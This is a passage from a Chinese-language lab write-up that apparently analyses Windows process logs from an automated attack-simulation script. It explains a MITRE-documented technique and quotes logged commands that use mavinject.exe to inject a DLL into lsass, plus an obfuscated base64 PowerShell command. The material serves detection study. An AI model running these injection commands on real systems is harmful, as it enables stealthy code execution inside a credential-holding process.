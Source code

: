     > 攻擊者可能會濫用mavinject.exe 來代理惡意程式碼的執行。Mavinject.exe 是Microsoft 應用程式虛擬化注入器，它是一種Windows 實用程序，可以作為Microsoft 應用程式虛擬化(App-V) 的一部分將程式碼注入到外部進程中。
    > 攻擊者可能會濫用 mavinject.exe 將惡意 DLL 注入正在運行的進程（即動態連結程式庫注入），從而允許執行任意程式碼（例如 `C:\Windows\system32\mavinject.exe PID /INJECTRUNNING PATH_DLL`）。 由於 mavinject.exe 可能經過 Microsoft 數位簽名，因此透過此方法代理執行可能會逃避安全性產品的偵測，因為執行被隱藏在合法進程下。
    > 除了動態連結程式庫注入之外，Mavinject.exe 還可以被濫用透過其 /HMODULE 命令列參數（例如 `mavinject.exe PID /HMODULE=BASE_ADDRESS PATH_DLL ORDINAL_NUMBER`）執行導入描述符注入。 此指令會將由指定 DLL 組成的導入表條目注入到模組的給定基底位址處。

    ```
    ParentProcessId 7544 
    ParentImage C:\Windows\System32\cmd.exe 
    ParentCommandLine "C:\Windows\System32\cmd.exe" /C "C:\Users\Admin\Desktop\auto-attack.bat"  
    ParentUser W10C\Admin 
    OriginalFileName PowerShell.EXE 
    CommandLine powershell.exe -NoProfile -Command "mavinject.exe ((Get-Process lsass).Id) /INJECTRUNNING C:\Windows\System32\vbscript.dll" 
    ProcessId 11488
    ```
    從以上payload發現和Mitre上的記錄一模一樣，把lsass的process inject到vbscript.dll這種windows高度信任的檔案
    ```
    ParentProcessId 11488 
    ParentImage C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
    ParentCommandLine powershell.exe -NoProfile -Command "mavinject.exe ((Get-Process lsass).Id) /INJECTRUNNING C:\Windows\System32\vbscript.dll" 
    ParentUser W10C\Admin 
    OriginalFileName mavinject64.exe 
    CommandLine "C:\Windows\system32\mavinject.exe" 892 /INJECTRUNNING C:\Windows\System32\vbscript.dll 
    ```
    所以下一個log就實際執行上一個command
13. Timeout → Powershell Hello Payload → Timeout → CMD Hello Payload → Timeout
    接著auto-attack.bat又執行powershell的下列command:
    ```
    ParentProcessId 7544 
    ParentImage C:\Windows\System32\cmd.exe 
    ParentCommandLine "C:\Windows\System32\cmd.exe" /C "C:\Users\Admin\Desktop\auto-attack.bat"  
    ParentUser W10C\Admin 
    OriginalFileName PowerShell.EXE 
    CommandLine powershell.exe -NoProfile -Command "(ps lsass).Modules | Where-Object { $_.ModuleName -eq 'vbscript.dll' }" 
    ```
    接著重複執行第9步的powershell payload:
    ```
    ParentProcessId: 7544
    ParentImage: C:\Windows\System32\cmd.exe
    ParentCommandLine: "C:\Windows\System32\cmd.exe" /C "C:\Users\Admin\Desktop\auto-attack.bat" 
    ParentUser: W10C\Admin
    OriginalFileName: PowerShell.EXE
    CommandLine: powershell.exe  -e  JgAgACgAZwBjAG0AIAAoACcAaQBlAHsAMAB9ACcAIAAtAGYAIAAnAHgAJwApACkAIAAoACIAVwByACIAKwAiAGkAdAAiACsAIgBlAC0ASAAiACsAIgBvAHMAdAAgACcASAAiACsAIgBlAGwAIgArACIAbABvACwAIABmAHIAIgArACIAbwBtACAAUAAiACsAIgBvAHcAIgArACIAZQByAFMAIgArACIAaAAiACsAIgBlAGwAbAAhACcAIgApAA==
    ProcessId: 13276
    ```
    再執行一次CMD版本的Hello Payload:
    ```
    ParentProcessId: 7544
    ParentImage: C:\Windows\System32\cmd.exe
    ParentCommandLine: "C:\Windows\System32\cmd.exe" /C "C:\Users\Admin\Desktop\auto-attack.bat" 
    ParentUser: W10C\Admin
    OriginalFileName: Cmd.Exe
    CommandLine: cmd  /c echo Hello, from CMD!  
    ```
14. Open Notepad.exe → Timeout 
    這一段payload就只是在啟動Notepad.exe這個application而已
    ```